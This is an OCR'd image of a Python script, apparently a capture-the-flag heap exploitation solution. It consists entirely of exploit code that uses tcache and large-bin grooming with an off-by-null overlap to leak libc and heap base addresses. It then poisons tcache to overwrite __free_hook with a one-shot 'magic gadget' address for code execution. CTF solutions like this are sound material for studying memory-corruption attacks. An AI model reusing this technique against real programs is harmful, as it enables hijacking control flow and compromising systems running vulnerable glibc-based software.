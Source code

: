 ```python
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

```